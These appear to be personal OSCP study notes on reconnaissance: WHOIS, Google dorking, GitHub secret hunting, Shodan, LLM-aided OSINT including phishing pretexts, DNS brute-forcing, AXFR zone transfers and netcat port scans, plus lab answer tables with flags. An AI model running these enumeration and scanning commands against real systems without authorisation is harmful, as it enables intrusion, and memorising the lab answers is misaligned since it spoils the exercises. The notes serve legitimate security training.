







# Module 6: Information Gathering

## Tags
#OSCP #Module6 #InformationGathering #Enumeration #OSINT #Recon #Whois #GoogleHacking #Netcraft #Shodan #DNS #Nmap #SMB #SMTP #SNMP #LOLBAS #LLM #MegaCorpOne #AXFR #ZoneTransfer #rpcclient #SmtpUserEnum #dig #PTR #FTP #NFS #IMAP #POP3 #MySQL #MSSQL #OracleTNS #IPMI #odat #RAKK #VirtualHosts #Vhost #gobuster #Fingerprinting #nikto #Wappalyzer #WebCrawling #scrapy #WaybackMachine #robots #HTBSupplementary #CoreFTP #CVE202222836 #xpDirtree #UNCInjection #NetNTLMv2 #MSSQLImpersonation #LinkedServer #subbrute #HydraFTP #HydraPOP3 #HydraSMTP #enum4linux #smbclientNull

---

## **Why This Module Matters**

Everything in a pentest depends on how good your recon was. The foothold, the privilege escalation, the lateral movement, all of it. This module is the foundation: how to build a picture of a target's attack surface before you start throwing exploits at it. First without touching the target at all (passive), then by directly poking it (active).

**✅ VM/Lab status:** All hands-on lab exercises for this module (passive + active recon, across every VM group) are complete. See the **Outstanding Labs Checklist** at the very bottom.

---

## 6.1. The Penetration Testing Lifecycle

A pentest generally isn't scripted in advance. You agree a **scope** (what's in/out of bounds) and **Rules of Engagement (RoE)** with the client, then adapt as you go. In red team exercises, a "referee" may be assigned just to make sure the RoE is respected.

**The typical stages of a pentest:**
1. Defining the Scope
2. Information Gathering
3. Vulnerability Detection
4. Initial Foothold
5. Privilege Escalation
6. Lateral Movement
7. Reporting/Analysis
8. Lessons Learned/Remediation

Information gathering (aka **enumeration**) isn't a one-time step at the start, it's continuous. Every foothold or lateral move gives you new info to feed back into more enumeration. It comes in two flavors:

- **Passive**: collect info with little to no direct interaction with the target (low footprint, harder to detect).
- **Active**: directly probe the target's infrastructure (bigger footprint, but more detailed and accurate).


*Why the feedback arrows: info gathering isn't just stage 2, it's continuous. Every foothold or lateral move hands you new hostnames, users, or services to go enumerate again.*

#### Tags: #PentestLifecycle #Scope #RulesOfEngagement #PassiveVsActive

---

## 6.2. Passive Information Gathering

Also called **OSINT** (Open-Source Intelligence): gathering publicly available info about a target without touching their actual systems in a way that would raise alarms.

There are two schools of thought on what actually counts as "passive":
- **Strict**: never interact with the target at all, only third-party sources.
- **Loose**: interact only as a normal internet user would (e.g. register for an account), but don't test for vulnerabilities yet.

This module uses the **loose** interpretation, since it better reflects real-world engagements.

> **Story worth remembering:** OffSec once found almost zero attack surface on a client. Then they found an employee ("David") posting on a stamp-collecting forum with his *corporate* email address. They built a fake stamp-trading website, called him pretending to be a fellow collector, and got him to browse to it. The embedded exploit gave them a reverse shell. Lesson: small, seemingly harmless personal details can be the biggest pivot point of the whole engagement. Also worth remembering for report writing: you blame the *process/policy* gap (no security awareness training), never the individual employee, see [[05. Report Writing For Pen Testers#5.2.1. What's the Report Actually For?|5.2.1]].

> ⚡ **Modern tool:** the next several sections (WHOIS, Google dorking, Netcraft, GitHub, Shodan) each teach one passive source in depth, worth doing manually at least once to understand what each source actually leaks and why. [[TheHarvester]] queries most of them in a single pass once that's understood, useful for covering ground fast on a real engagement.

#### Tags: #OSINT #PassiveRecon #SocialEngineering #Phishing

---

### 6.2.1. WHOIS Enumeration

**WHOIS** is a protocol (TCP port 43) for querying public domain registration databases.

**What a WHOIS record can tell you:**
- **Name Server**: the DNS servers for the domain
- **Registrar**: who the domain was registered through (GoDaddy, Namecheap, Gandi, etc.)
- **Registrant Contact**: the legal owner
- **Administrative Contact**: who manages domain ownership/access
- **Technical Contact**: who manages DNS/server setup
- **Creation/Expiration Dates**
- **Domain Status**: locked/active/in transfer

**Forward lookup** = domain name → owner info. **Reverse lookup** = IP address → who's behind it.

```bash
# Forward WHOIS lookup: who owns megacorpone.com?
whois megacorpone.com -h 192.168.50.251
```
Useful bits pulled out: Registrant/Admin/Tech contact was "Alan Grofield" (their "IT and Security Director" per the company site), and the name servers (`NS1/NS2/NS3.MEGACORPONE.COM`).

```bash
# Reverse WHOIS lookup: who owns this IP block?
whois 38.100.193.70 -h 192.168.50.251
```
This revealed the IP sits in the `38.0.0.0/8` block, registered to PSINet Inc. (the hosting ISP).

Everything found here goes straight into your recon notes for later correlation, same note-taking discipline as [[05. Report Writing For Pen Testers#5.1.3. How to Structure Your Notes|5.1.3]].

#### Tags: #Whois #ForwardLookup #ReverseLookup #DomainRegistration

**Lab status: ✅ Completed** (answers already captured from the module):

| Question | Answer |
|---|---|
| Hostname of the third MegaCorp One name server? | **NS3.MEGACORPONE.COM** |
| Registrar's WHOIS server (from previous answer)? | **whois.gandi.net** |
| Flag from WHOIS query on offensive-security.com (DNS section) | **OS{bb814dc487c8d7c56bc24771b7f0b803}** |
| Flag from WHOIS query on kali.org (Tech Email) | **OS{803999f65df739f88d22e30db0abd8fd}** |

#### Tags: #Lab #Quiz #Module6

---

### 6.2.2. Google Hacking

Popularized by Johnny Long back in 2001: using clever search operators to dig up sensitive info search engines have already indexed for you.

**Key operators:**
- `site:`, restrict to one domain (e.g. `site:megacorpone.com`)
- `filetype:` / `ext:`, restrict to a file type (e.g. `filetype:txt`, `ext:php`)
- `-`, exclude a term/operator (e.g. `-filetype:html`)
- `intitle:"index of" "parent directory"`, find exposed directory listing pages

**Worked example:** `site:megacorpone.com filetype:txt` found `robots.txt`:
```
User-agent: *
Allow: /
Allow: /nanites.php
```

> 📸 Screenshot: the Google search results page for that dork, worth grabbing since it's a genuinely visual "aha" moment

*A nice bit of irony here: `robots.txt` exists to tell search engines what **not** to crawl, but the file itself just told us about a hidden page (`/nanites.php`) we'd never have found otherwise. Reading `robots.txt` is basically free recon, always check it.*

The **Google Hacking Database (GHDB)** and the **DorkSearch** portal are pre-built collections of these dorks worth knowing about, no need to reinvent every dork yourself.

> 📸 Screenshot: the original module shows the actual GHDB listing page, worth grabbing from exploit-db.com/google-hacking-database directly to see the category breadth (files containing passwords, vulnerable servers, login portals, etc.) at a glance.

> 🎥 **Video:** ["OSINT Secrets Exposed: Google Dorking Unveiled"](https://youtube.com/watch?v=_NBsQeM6Dr0), found via search, title/topic matches but content unverified (same YouTube-fetch limitation noted elsewhere in this vault). No ippsec.rocks match found for this specific technique despite searching, dorking tends to show up as one step inside a broader ippsec box walkthrough rather than getting its own dedicated video, so nothing to point at with confidence there.

#### Tags: #GoogleHacking #GoogleDorks #GHDB #RobotsTxt

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| VP of Legal for MegaCorp One? | **Mike Carlow** |
| Email of the VP of Legal? | **mcarlow@megacorpone.com** |
| Other employee found not listed on the main site? | **Franco Zetticci** |

#### Tags: #Lab #Quiz #Module6

---

### 6.2.3. Netcraft

A free web portal (UK-based) for passive recon: what tech runs a site, what else shares its IP netblock, site history. Purely passive, since Netcraft already crawled the target, you're just reading their results, not touching the target yourself.

Netcraft's DNS search + "site report" reveals subdomains and a "site technology" breakdown, useful later once active recon/exploitation starts.

> 📸 Screenshot: a Netcraft site report page, worth grabbing to remember the layout

**Note:** Netcraft discontinued this specific service in 2024. Use **wappalyzer.com/lookup/\<domain\>** as a modern alternative for tech-stack fingerprinting instead.

> 🧭 Quick lookup: [[Reconnaissance & Enumeration (Decision Tree)|Decision Tree]]

#### Tags: #Netcraft #TechStackFingerprinting #Wappalyzer

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| Application server running on www.megacorpone.com? | **Apache** |
| Client-side scripting framework handling fonts? | **Font Awesome** |
| IPv4 autonomous system number (a unique number assigned to each large ISP or network block on the internet) hosting www.megacorpone.com? | **AS16276** |

#### Tags: #Lab #Quiz #Module6

---

### 6.2.4. Open-Source Code (GitHub, GitLab, Gist, SourceForge)

Public code repos can leak the programming languages/frameworks a company uses, and occasionally, accidentally committed **credentials**.

**Manual approach** (needs a free GitHub account to search across all public repos):
```
path:users
```
This found a single file, `xampp.users`, containing a username and password hash, straight into the notes for the active phase later.

> 📸 Screenshot: the GitHub search results page, and the specific commit/file if you find something sensitive

**Automated approach** (better once there are too many repos to check by hand): tools like **Gitrob** and **Gitleaks** usually need an API access token for the hosting provider. They rely on regex patterns or **entropy-based detection**, spotting strings that look "too random" to be normal text, a hallmark of keys/passwords/tokens, to flag secrets, e.g. an AWS Access Key ID.

> 📸 Screenshot: the original module's Gitleaks output example, colorized terminal output flagging an AWS Access Key ID mid-file, a much clearer "here's what a hit actually looks like" than the description alone.

> 🔗 **HackTricks**: [book.hacktricks.wiki](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/external-recon-methodology/index.html#github-leaked-secrets), has a good rundown of exactly what patterns and dorks to search a target's GitHub org for, worth a look if the manual `path:` search above comes up empty.

> 🔍 Full breakdown of why entropy is the actual signal these scanners key off, and why it catches things a plain regex misses: [[Reconnaissance & Enumeration (Breakdowns)#Entropy-based secret detection (Gitrob/Gitleaks)|Command Breakdowns]]

> **Tip:** GitHub rate-limits unauthenticated API calls, grab a personal access token before running automated tools like Gitleaks.

No secret-scanning tool is perfect, manual review still catches things automation misses.

#### Tags: #GitHub #Gitrob #Gitleaks #EntropyDetection #CredentialLeak #OpenSourceRecon

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| Username associated with the discovered hash in MegaCorp One's GitHub repo? | **trivera** |
| Title of the secondary/placeholder MegaCorp One repository? | **git-test** |

#### Tags: #Lab #Quiz #Module6

---

### 6.2.5. Shodan

Where Google/Netcraft index *website content*, **Shodan** indexes internet-connected *devices*, servers, routers, IoT, anything with an exposed service, and shows banner/service info gathered by crawling, all without you touching the target yourself. Needs a free account (limited access on the free tier).

**Worked example:** searching `hostname:megacorpone.com` in Shodan shows IPs, open services, and banners. Drilling into "SSH" under Top Ports reveals the exact OpenSSH version running on each host. Clicking into a specific IP gives a full host summary, including known vulnerabilities already tied to whatever services it detected, genuinely useful for deciding where to start active testing first.

> 📸 Screenshot: a Shodan search results page and a drilled-into host summary

#### Tags: #Shodan #DeviceRecon #BannerGrabbing

---

### 6.2.6. Security Headers and SSL/TLS

Third-party scanners blur the passive/active line slightly, since a third party is doing the scanning here, not you directly:

- **securityheaders.com**: checks HTTP response headers (e.g. missing `Content-Security-Policy`, `X-Frame-Options`). Missing headers aren't vulnerabilities by themselves, but they're a hint at how security-mature the dev/ops team is. This ties into **server hardening** generally: disabling unneeded services, removing unused accounts, rotating default passwords, setting proper headers, and so on.
- **Qualys SSL Labs SSL Server Test**: analyzes SSL/TLS config against best practice, flags known vulns (e.g. POODLE, Heartbleed) and legacy protocol support (e.g. TLS 1.0/1.1 with weak ciphers like `TLS_DHE_RSA_WITH_AES_256_CBC_SHA`).

> 📸 Screenshot: a securityheaders.com or SSL Labs grade report

Both give you a read on the target's general security hygiene before you even touch active testing.

#### Tags: #SecurityHeaders #SSLLabs #TLSHardening #ServerHardening

---

## 6.3. LLM-Powered Passive Information Gathering

LLMs are good at this stage because passive recon is mostly **unstructured text**, social media, forum posts, company pages, and LLMs are built to extract patterns from exactly that kind of messy text.

**Risks to keep in mind:**
- LLMs generate from learned patterns, not verified facts. Info can be outdated, wrong, or incomplete. Always cross-check anything critical against a real source.
- Vague prompts plus a lack of context can lead to misinterpreted technical queries.
- Don't paste sensitive client data into a cloud LLM. It may be processed/stored insecurely, and could even violate the engagement's scope/legal terms. **Check with the client first** if LLM use is in-scope at all.
- Model responses can carry training-data bias.
- Compliance/regulatory standards aren't automatically respected by an LLM's output.

#### Tags: #LLM #AIRecon #OSINT #DataPrivacy

### 6.3.1. Passive LLM-Aided Enumeration

Using free-tier ChatGPT (GPT-3.5, limited GPT-4 access as of Jan 2025) as an assistant for recon **brainstorming and organization**, not as a ground-truth data source.

A **prompt** is just the text input/question you give the model to steer its response. Be clear and specific, vague prompts get vague answers.

**Example, WHOIS-style prompt:**
```
whois megacorpone.com
```
ChatGPT returned a well-organized summary (registrant, name servers, domain status). Worth noting it explicitly ran this as a live WHOIS-style query rather than pulling stale training data, since WHOIS data changes often and a stale answer here would be actively misleading.

**Example, company/employee OSINT prompt:**
```
Can you print out all the public information about company structure and employees of megacorpone?
```
Returned an organized leadership list, CEO, VP Legal, Marketing Director, and so on, some with emails and Twitter handles attached. Genuinely useful for tuning a phishing pretext or planning targeted password-guessing later.

**Example, Google dork generation prompt:**
```
can you provide the best 20 google dorks for megacorpone.com website tailored for a penetration test?
```
ChatGPT can't run dorks directly (against its own ToS), but it's great at generating a categorized starter list: basic info, directory discovery, vulnerable pages, config/sensitive files, leaked info, source code repos.

**Example, tech stack prompt:**
```
Retrieve the technology stack of the megacorpone.com website
```
Returned a categorized breakdown (languages/frameworks, CDNs, web/app servers, other infra), similar to what Netcraft/Wappalyzer would show. Though it may be simulating an answer rather than actually live-checking, so verify it against a real tool before relying on it.

> 📸 Screenshot: one of these ChatGPT conversations, worth keeping as evidence of the prompt-and-response pairing

> **Bottom line:** LLMs are great at synthesizing and organizing OSINT at scale, and at spotting subtle correlations a human might miss. But they work best paired with traditional tools, not as a replacement for them.

#### Tags: #ChatGPT #Prompting #LLMOSINT #GoogleDorks #PhishingPretext

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| Registrant of megacorpone.com per ChatGPT WHOIS response? | **A) Alan Grofield** |
| Domain status of megacorpone.com? | **C) clientTransferProhibited** |
| Which dork identifies subdomains? | **D) site:\*.megacorpone.com** |
| CEO's Twitter handle? | **A) @Joe_Sheer** |
| Dork to find exposed source code repos? | **A) site:megacorpone.com intext:"github.com" OR intext:"gitlab.com"** |
| Kali tool that pairs well with ChatGPT for subdomain enum? | **A) Sublist3r/Subfinder** |

#### Tags: #Lab #Quiz #Module6

---

## 6.4. Active Information Gathering

Now we move to **direct interaction** with target services: port scanning, DNS/SMB/SMTP/SNMP enumeration. Where Kali tools aren't available (e.g. an "assumed breach" scenario where you're handed a plain Windows workstation with nothing extra installed), we lean on **LOLBAS** (Living Off the Land Binaries And Scripts), trusted, pre-installed Windows tools (`whoami.exe`, `nslookup`, `net`, etc.) repurposed for enumeration without needing to install anything.

#### Tags: #ActiveRecon #LOLBAS #LivingOffTheLand

---

### 6.4.1. DNS Enumeration

**Common DNS record types:**

| Record | Purpose |
|---|---|
| NS | Authoritative nameservers for the domain |
| A | IPv4 address for a hostname |
| AAAA | IPv6 address for a hostname |
| MX | Mail server(s), each with a priority |
| PTR | Reverse lookup: IP → hostname |
| CNAME | Alias for another hostname |
| TXT | Arbitrary text (ownership verification, SPF, etc.) |

**Basic lookups with `host`:**
```bash
# A record (default)
host www.megacorpone.com

# MX records
host -t mx megacorpone.com

# TXT records
host -t txt megacorpone.com
```
Lower MX priority number = used first for mail delivery. A TXT record found here was literally `"Try Harder"`, a MegaCorp Easter egg, sitting alongside a Google site-verification string.

**Lookups with `dig`** (outputs a full answer section by default; use `+short` for just the value):
```bash
# A record — clean IP-only output
dig +short inlanefreight.com

# PTR — reverse lookup: IP → hostname
dig -x 134.209.24.248

# MX records
dig MX facebook.com

# NS records (find authoritative nameservers)
dig NS megacorpone.com

# Query a specific nameserver
dig inlanefreight.com @8.8.8.8
```
`host` and `dig` largely overlap; `dig` gives more detail by default (query/answer/authority sections, TTL, query time) and is friendlier for scripting with `+short`. `host` is faster for quick one-liners. Both live on Kali, so use whichever fits the moment.

**Valid vs invalid hostname:**
```bash
host idontexist.megacorpone.com
# → NXDOMAIN if it doesn't exist
```

**Manual DNS brute-forcing (forward lookup) with a Bash one-liner:**
```bash
cat list.txt
# www / ftp / mail / owa / proxy / router

for ip in $(cat list.txt); do host $ip.megacorpone.com; done
```
Bigger wordlists live in the **SecLists** project (`sudo apt install seclists` → `/usr/share/seclists`).

**Reverse DNS brute-forcing a discovered IP range:**
```bash
for ip in $(seq 64 79); do host 167.114.21.$ip; done | grep -Ev "not found|timed out"
```
This is how you turn "a few scattered IPs" into a full list of internal hostnames (admin, beta, fs1, intranet, mail2, siem, snmp, syslog, vpn, vpn2, vpndev, vpnprod, etc). Recon is genuinely **cyclical**, each new hostname or IP feeds the next round.

**Automating with dedicated tools:**
```bash
# DNSRecon, standard scan
dnsrecon -d megacorpone.com -t std

# DNSRecon, brute force using a wordlist
dnsrecon -d megacorpone.com -D ~/list.txt -t brt

# DNSEnum, automated all-in-one enumeration
dnsenum megacorpone.com
```

**From a Windows box (LOLBAS-style, via `nslookup`):**
```powershell
# Connect to the Windows 11 client first
xfreerdp /u:student /p:lab /v:192.168.50.152

# Then, inside the RDP session:
nslookup mail.megacorptwo.com

# Query a specific record type against a specific DNS server
nslookup -type=TXT info.megacorptwo.com 192.168.50.151
```

> 📸 Screenshot: the RDP session showing the `nslookup` output, useful evidence for a report since it proves the LOLBAS technique worked without any extra tools installed

**AXFR zone transfer**, if a nameserver isn't configured to restrict transfers to authorised secondaries, you get the entire zone database in one request:
```bash
# Find authoritative nameservers first
dig ns DOMAIN @TARGET_DNS

# Attempt zone transfer against each nameserver
dig axfr DOMAIN @TARGET_DNS

# Also try internal subdomains (common in Active Directory)
dig axfr internal.DOMAIN @TARGET_DNS
```
A successful transfer dumps every A, CNAME, MX, PTR, and TXT record for the zone, including internal hostnames and dev/staging subdomains that don't appear in public DNS. Always try every nameserver listed in `dig ns`, secondary NSes sometimes have looser transfer policies. `dnsenum` covers AXFR automatically as part of its standard run:

```bash
# dnsenum: AXFR attempt + subdomain brute-force in one pass
dnsenum --dnsserver TARGET_DNS --enum -p 0 -s 0 -o subdomains.txt \
  -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt DOMAIN
```

> 🔁 Similar to: related boxes FriendZone + Trick in the Related Boxes section below, both are pure zone-transfer-to-foothold boxes

> 🔗 **HackTricks**: [github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/pentesting-dns](https://github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/pentesting-dns.md), deeper reference on DNS enumeration including zone transfer, cache snooping, and DNSSEC.

#### Tags: #DNS #DNSEnumeration #DNSBruteForce #DNSRecon #DNSEnum #Nslookup #Xfreerdp #ReverseDNS #AXFR #ZoneTransfer #dig #PTR

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| Second-to-best priority MX value for megacorpone.com? | **20** |
| How many TXT records for megacorpone.com? | **2** |
| IP of siem.megacorpone.com via DNSEnum? | **167.114.21.71** |
| TXT record content of info.megacorptwo.com (via RDP + nslookup)? | **greetings from the TXT record body** |

#### Tags: #Lab #Quiz #Module6

---

### 6.4.2. TCP/UDP Port Scanning Theory

**⚠️ Legal note:** port scanning outside an authorized engagement/lab can be illegal. Only do this with explicit written permission, or in the labs.

**TCP CONNECT scan** relies on the full 3-way handshake: SYN → SYN-ACK (port open) → ACK. If refused/closed, you get RST-ACK instead.

```bash
# Netcat as a crude TCP port scanner
nc -nvv -w 1 -z 192.168.50.152 3388-3390
```
`-w 1` = 1 second timeout, `-z` = zero-I/O scan mode (no data sent, just checks the connection).


*This is what the original module's Wireshark capture (Figure 18) shows on the wire, worth reproducing here since a real packet capture screenshot is the clearest way to actually see this, grab your own with `wireshark` running alongside the `nc` scan above if you want the real thing.*

**UDP scanning** works differently. UDP is stateless, there's no handshake at all. An empty packet is sent; if the port is **closed**, you typically get an **ICMP port unreachable** back. If **open or filtered**, you often get *no response at all*, which is exactly why UDP scanning is unreliable: a filtered port can look identical to an open one.

```bash
# Netcat UDP scan
nc -nv -u -z -w 1 192.168.50.149 120-123
```


*Same idea as Figure 19 in the original module. The asymmetry here is the whole reason UDP scanning is unreliable, "open" and "filtered" both look like silence.*

**Common UDP scanning pitfalls:**
- Firewalls/routers dropping ICMP causes false positives (a closed port can look open)
- Scanners often only check a preset list of "interesting" ports, so real open UDP ports can be missed entirely
- Pentesters tend to neglect UDP in favor of "exciting" TCP findings, don't be that person, there's real attack surface hiding behind UDP
- TCP scanning generates noticeably *more* traffic than UDP, due to handshake overhead and retransmits

> 🧭 Quick lookup: [[Reconnaissance & Enumeration (Decision Tree)|Decision Tree]]

